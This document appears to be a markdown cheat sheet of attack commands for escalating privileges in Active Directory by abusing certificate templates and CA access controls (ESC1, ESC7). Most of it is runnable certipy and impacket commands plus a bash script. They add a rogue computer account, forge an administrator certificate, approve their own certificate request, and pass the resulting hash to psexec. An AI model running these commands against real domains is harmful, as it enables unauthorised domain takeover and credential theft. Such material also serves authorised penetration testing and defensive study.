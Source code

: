 ```yaml
---
title: Active Directory
---
```


# Active Directory Privilege Escalation

- [Hacktricks CS Domain Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2)
- [Hacktricks Certificates](https://book.hacktricks.xyz/crypto-and-stego/certificates)
- [impacket](https://github.com/fortra/impacket)
- [certipy](https://github.com/ly4k/Certipy)

## Certificate Authority stuff

```bash
certipy-ad find -u my_user -p my_password123 -dc-ip 10.10.10.10
```

In the `.txt` file, look for:
```bash
# Template Name                       : ESC1
# Display Name                        : Escee 1
# Certificate Authorities             : COMPANY-CA
# ...
Enabled                             : True
Enrollee Supplies Subject           : True
Enrollment Rights                   : Company.org\Domain Computers
Enrollment Rights                   : Company.org\Domain Users
```

### Enrollment Rights Domain Computers
```bash
python addcomputer.py company.org/my_user:'my_password123' -dc-ip 10.10.10.10 -computer-name "newcomputer1" -computer-pass 'newpass1'
```
```bash
certipy-ad req -username 'newcomputer1$' -password 'newpass1' -ca 'COMPANY-CA' -target 10.10.10.10 -template 'ESC1' -upn "administrator@company.org" -dns dns.company.org
```
```bash
certipy-ad auth -pfx administrator_company.pfx -dc-ip 10.10.10.10 -ldap-shell
```

## Vulnerable Certificate Authority Access Control - ESC7
- [Hacktricks ESC7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7)
```bash
#!/bin/bash

theca='xxxx-DC01-CA'
theuser='xxx@xxx.com'
theusername='xxxxx'
theadmin='administrator@xxx.com'
thepassword='xxxxxxxxx'
theip='x.x.x.x' 
thetarget='xxx.com'

certipy-ad ca -ca $theca -add-officer $theusername -username $theuser -password $thepassword -dc-ip $theip
certipy-ad ca -ca $theca -enable-template SubCA -username $theuser -password $thepassword -dc-ip $theip

REQUEST_ID=$(echo "y" | certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -template SubCA -upn $theadmin -dc-ip $theip | awk -F' ' '/Request ID is/ {print $5}')
echo "Request ID: $REQUEST_ID"

certipy-ad ca -ca $theca -issue-request $REQUEST_ID -username $theuser -password $thepassword -dc-ip $theip
certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -retrieve $REQUEST_ID -dc-ip $theip

certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetarget -dc-ip $theip
```

```bash
# this returns a hash
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetargetdomain -dc-ip $theip

# use the hash here
python psexec.py -hashes hhhhhhhh:hhhhhhhhh administrator@xxxx.com
```

